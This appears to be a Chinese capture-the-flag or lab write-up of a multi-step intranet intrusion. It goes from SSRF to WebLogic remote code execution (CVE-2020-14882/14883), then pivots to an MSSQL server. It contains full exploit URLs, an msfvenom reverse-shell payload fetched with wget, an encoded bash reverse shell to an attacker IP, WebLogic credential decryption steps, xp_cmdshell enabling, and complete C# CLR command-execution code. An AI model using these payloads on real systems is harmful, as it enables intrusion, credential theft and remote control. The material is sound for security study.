

ISOON
nmap扫描端口
8080端口有web服务，发现是个ssrf
可以读/etc/hosts

给了内网网段，扫一波内网主机
内网119有主机存活，继续扫描端口
http://192.168.57.119:7001有一个web服务，使用的是weblogic框架
WebLogic Server Version: 12.2.1.3.0
使用（CVE202014882/14883）可以rce
无回显
我们可以利用msf生成一个elf马
./msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=192.168.10.191 lport=5555 -f elf > test.elf
http://192.168.57.119:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('wget http://192.168.10.192/test.elf');")
需要权限+X
有回显
http://192.168.57.119:7001/console/css/%25%32%65%25%32%65%25%32%66consolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getParameter("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')&cmd=whoami
将payload编码一下，利用ssrf弹bash
http://192.168.57.119:7001/console/css/%2e%2e%2fconsolejndi.portal?test_handle=com.tangosol.coherence.mvel2.sh.ShellSession('weblogic.work.ExecuteThread currentThread = (weblogic.work.ExecuteThread)Thread.currentThread(); weblogic.work.WorkAdapter adapter = currentThread.getCurrentWork(); java.lang.reflect.Field field = adapter.getClass().getDeclaredField("connectionHandler");field.setAccessible(true);Object obj = field.get(adapter);weblogic.servlet.internal.ServletRequestImpl req = (weblogic.servlet.internal.ServletRequestImpl)obj.getClass().getMethod("getServletRequest").invoke(obj); String cmd = req.getParameter("cmd");String[] cmds = System.getProperty("os.name").toLowerCase().contains("window") ? new String[]{"cmd.exe", "/c", cmd} : new String[]{"/bin/sh", "-c", cmd};if(cmd != null ){ String result = new java.util.Scanner(new java.lang.ProcessBuilder(cmds).start().getInputStream()).useDelimiter("\\A").next(); weblogic.servlet.internal.ServletResponseImpl res = (weblogic.servlet.internal.ServletResponseImpl)req.getClass().getMethod("getResponse").invoke(req);res.getServletOutputStream().writeStream(new weblogic.xml.util.StringInputStream(result));res.getServletOutputStream().flush();} currentThread.interrupt();')&cmd=%62%61%73%68%20%2d%63%20%27%62%61%73%68%20%2d%69%20%3e%26%20%2f%64%65%76%2f%74%63%70%2f%31%39%32%2e%31%36%38%2e%31%30%2e%31%39%31%2f%34%34%34%34%20%30%3e%26%31%27
cmd是经过url编码的bash
拿到shell后我们要信息收集，在/home/weblogic/Oracle/Middleware/user_projects/domains/iSoonDomain/config/jdbc
有个配置文件发现连了数据库
将/home/weblogic/Oracle/Middleware/user_projects/domains/iSoonDomain/security、SerializedSystemIni.dat
利用weblogic解密工具可以解出密码
我们需要用这台机器当跳板机来连mssql，所以我们需要个代理
可以使用ew或msf
EW
https://github.com/idlefire/ew
公网
./ew_for_linux64 -s rcsocks -l 转发端口 -e 接收端口
内网
./ew_for_linux64 -s rssocks -d 目的ip -e 发送端口
msf
run get_local_subnets # 获取内网网段
run autoroute -s 10.223.71.0/24 # route add 目的ip 255.255.255.0 [session id] 两种方法都可以，第二种方式需在session外
use auxiliary/server/socks5
SRVHOST 0.0.0.0 yes The address to listen on SRVPORT 1080 yes The port to listen on
使用navicat连sqlserver
可以开启xp_cmdshell存储进程来执行命令：
--打开xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
--关闭xp_cmdshell
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;EXEC sp_configure 'xp_cmdshell', 0;RECONFIGURE;
执行
exec xp_cmdshell 'whoami'
预期解说是利用clr
将下面代码保存为cmd_exec.cs
using System.Data;
using System.Data.SqlClient;
using System.Data.SqlTypes;
using Microsoft.SqlServer.Server;
using System.IO;
using System.Diagnostics;
using System.Text;
public partial class StoredProcedures
{
[Microsoft.SqlServer.Server.SqlProcedure]
public static void cmd_exec (SqlString execCommand)
{
Process proc = new Process();
proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
proc.StartInfo.Arguments = string.Format(@" /C {0}", execCommand.Value);
proc.StartInfo.UseShellExecute = false;
proc.StartInfo.RedirectStandardOutput = true;
proc.Start();
// Create the record and specify the metadata for the columns.
SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", SqlDbType.NVarChar, 4000));
// Mark the beginning of the result set.
SqlContext.Pipe.SendResultsStart(record);
// Set values for each column in the row
record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
// Send the row back to the client.
SqlContext.Pipe.SendResultsRow(record);
// Mark the end of the result set.
SqlContext.Pipe.SendResultsEnd();
proc.WaitForExit();
proc.Close();
}
};
windows .net自带csc.exe，下面命令可以找到csc.exe路径
Get-ChildItem -Recurse "C:\Windows\Microsoft.NET\" -Filter "csc.exe" | Sort-Object fullname -Descending | Select-Object fullname -First 1 -ExpandProperty fullname
然后编译
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /target:library C:/Users/kai/Desktop/cmd_exec.cs
我们需要将dll文件转成hex才能使用,使用下方powershell脚本可以转
$assemblyFile = "C:\Users\kai\Desktop\cmd_exec.dll"
$stringBuilder = New-Object -Type System.Text.StringBuilder
$stringBuilder.Append("CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM `n0x") | Out-Null
$fileStream = [IO.File]::OpenRead($assemblyFile)
while (($byte = $fileStream.ReadByte()) -gt -1) {
$stringBuilder.Append($byte.ToString("X2")) | Out-Null
}
$stringBuilder.AppendLine("\nWITH PERMISSION_SET = UNSAFE") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.AppendLine("CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.AppendLine("EXEC[dbo].[cmd_exec] 'whoami'") | Out-Null
$stringBuilder.AppendLine("GO") | Out-Null
$stringBuilder.AppendLine(" ") | Out-Null
$stringBuilder.ToString() -join "" | Out-File C:\Users\kai\Desktop\cmd_exec.txt
以sysadmin登录mssql执行
Sp_Configure 'clr enabled', 1
RECONFIGURE
GO
ALTER DATABASE master SET TRUSTWORTHY ON;
GO
CREATE ASSEMBLY [my_assembly] AUTHORIZATION [dbo] FROM
0x4D5A90000300000004000000F[TRUNCATED]
WITH PERMISSION_SET = UNSAFE
GO
CREATE PROCEDURE [dbo].[cmd_exec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [my_assembly].[StoredProcedures].[cmd_exec];
GO
EXEC[dbo].[cmd_exec] 'whoami'
GO
使用cmd_exec 'whoami'就可以执行命令
但是此机器无外网 ，无法反弹webshell
不过msf如果监听的是跳板机，那他会在跳板机开一个端口监听，直接反向链接（ps:u1s1王神真强
使用msf自带payload
成功弹到shell
whoami /priv 发现有SeImpersonatePrivilege权限
可以使用potato提权